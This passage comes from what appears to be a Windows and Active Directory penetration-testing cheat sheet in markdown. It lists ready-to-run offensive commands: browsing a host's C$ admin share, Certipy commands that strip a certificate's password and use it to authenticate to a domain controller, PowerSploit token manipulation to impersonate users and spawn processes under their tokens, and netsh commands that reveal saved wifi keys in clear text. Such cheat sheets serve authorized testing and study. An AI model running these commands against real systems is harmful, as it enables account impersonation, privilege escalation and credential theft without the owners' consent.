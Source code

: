#### Execute ls on the computer
```
ls \\<COMPOTERNAME FQDN>\C$
```

## Certipy
#### Unprotect pfx file for authentication certipy
```
certipy cert -export -pfx "cert.pfx" -password "<PASSWORD>" -out "cert-unprotected.pfx"
```

#### Auth with certipy
- Use the NTLM hash or `.ccache` file for authentication
```
certipy auth -pfx "cert-unprotected.pfx" -dc-ip <DC IP>
```

## Token manipulation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

#### List all tokens on a machine
```
Invoke-TokenManipulation –ShowAll
```

#### List all unique, usable tokens on the machine
```
Invoke-TokenManipulation -Enumerate
```

#### Start a new process with token of a specific user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

#### Start news process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

## Get the wifi password
### Get saved wifi networks
```
netsh wlan show profiles
```

#### Get key from saved wifi network
```
netsh wlan show profiles name=<NAME> key=clear
```
